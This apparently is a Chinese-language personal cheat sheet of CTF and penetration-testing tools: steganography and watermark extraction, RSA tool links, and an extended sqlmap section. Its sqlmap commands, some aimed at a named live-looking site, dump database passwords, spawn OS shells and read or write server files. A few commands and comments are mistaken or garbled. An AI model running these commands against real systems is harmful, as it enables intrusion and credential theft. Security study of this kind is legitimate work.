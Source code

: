 ## 一、杂项工具

### 1、outguess工具，隐写读取，可带密钥
安装：直接kali安装即可
使用：
```bash
#不带密码：
outguess -r 图片文路径 -t 输出内容文件路径
#带密码
outguess -k ‘密码’ -r 图片文件路径 -t 输出路径

#隐写：
outguess -k  “密码” -d hidden。txt demo.jpg out.jpg
```
### 2、 rsa工具集-openssl，rsatool，rsactftool，rsaAtool

[[rsa工具集使用]]
### 3、CaptfEncoder：网络安全工具套件

[[CaptfEncoder]]
### 4、盲水印提取
工具kali安装：
```
pip install blind-watermark
```

```
# embed watermark into image:
blind_watermark --embed --pwd 1234 examples/pic/ori_img.jpeg "watermark text" examples/output/embedded.png
# extract watermark from image:
blind_watermark --extract --pwd 1234 --wm_shape 111 examples/output/embedded.png
```
### 5、sqlmap
探测
```bash

sqlmap -u "https://www.haifong.org/search?key=1"
#在虚拟机中，使用主机代理网络（注意首先需要开启clash的允许局域网访问）
sqlmap -u "https://www.haifong.org/search?key=1" --proxy=http://192.168.240.1:7890
#探测post，让他自己找参数
sqlmap -u "url" --form --batch

#指定探测post数据
#首先抓包一个post数据
sqlmap -u "url" --data="抓包抓到的post数据" -p 前面data的参数指定一个扫描

#抓一个数据包并将数据爆保存到文件里，post请求，用这种方式最好（get也可以用）
#使用-r参数
sqlmap -r 文件名

#判断cookie里有没有，可以使用--cookie


```
探测级别：
```
--level 
```
获取库名
```
sqlmap -u url --current-db --batch
```
获取数据库密码：
```
sqlmap -u url  --batch --password
```
获取字段名：
```
sqlmap -u url --batch -D 数据苦命 -T 表名  --columns
```
获取数据：
```shell
sqlmap -u url --batch -D 数据苦命 -T 表名  --columns
```
拿shell：
```shell
sqlmap -u url --os-shell
sqlmpa -u url --sql-shell #拿到这个shell，只能执行查询语句
```
上传文件：
```shell
#下载文件
sqlmap -u url --file-read 绝对路劲 -v  #100s后关机 -v查看详细信息，可以看到它使用的sql语句
#上传文件
sqlmap -u url --file-write 本地文件路径  --file-dest 上传的文件名

```
![[Pasted image 20231216171016.png]]

绕过脚本：
sqlmap自带了六十几个tamper
## 二、web工具
### 1、**[[Tplmap使用教程]]**
**[[msf使用教程]]**
## 三、内网渗透工具
### 1、[[Mimikatz使用]]
